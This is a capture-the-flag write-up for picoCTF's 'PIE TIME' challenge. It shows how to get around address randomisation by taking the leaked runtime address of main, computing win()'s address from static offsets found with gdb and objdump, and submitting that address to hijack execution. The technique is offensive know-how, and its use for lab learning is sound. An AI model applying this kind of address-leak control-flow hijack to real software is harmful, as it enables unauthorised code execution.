 # PIE TIME Writeup

**Challenge Name:** PIE TIME

**Points:** 75

**Author:** Darkraicg492

**Description:**

Can you try to get the flag? Beware we have PIE!

## Understanding the Challenge

The challenge involves Position Independent Executables (PIE), meaning addresses of functions are randomized at runtime. Our goal is to hijack execution to call the `win()` function, which prints the flag.

## Analyzing the Binary

We analyse the given binary using `strings`, `objdump`, and `gdb`.

### **Finding Function Offsets**

Using `gdb`:

```
gdb ./vuln
disassemble win
```

This gives us the offset of `win()` in the binary:

```
0x00000000000012a7 <win>
```

### Finding `main()` Address at Runtime

Running the binary with `netcat`:

```
nc rescued-float.picoctf.net 63848
Address of main: 0x5c6a291d133d
Enter the address to jump to, ex => 0x12345:
```

Finding `main` offset:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ objdump -d vuln | grep "<main>"
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
```

### Calculating `win()` Address

Since PIE is enabled, function addresses are determined at runtime. We calculate `win()` actual address using:

```
win_addr = (main_addr - main_offset) + win_offset
```

where:

- `main_addr = 0x5c6a291d133d` (runtime address of main)
- `main_offset = 0x133d` (static offset of main from `objdump`)
- `win_offset = 0x12a7` (static offset of win from `gdb`)

Calculating:

```
win_addr = (0x5c6a291d133d - 0x133d) + 0x12a7
         = 0x5c6a291d0000 + 0x12a7
         = 0x5c6a291d12a7
```

## Exploiting the Binary

We input the computed address into the program:

```
Enter the address to jump to, ex => 0x12345: 0x5c6a291d12a7
```
![image](https://github.com/user-attachments/assets/d5ecca14-1773-4815-be82-7b6271b6ee3a)

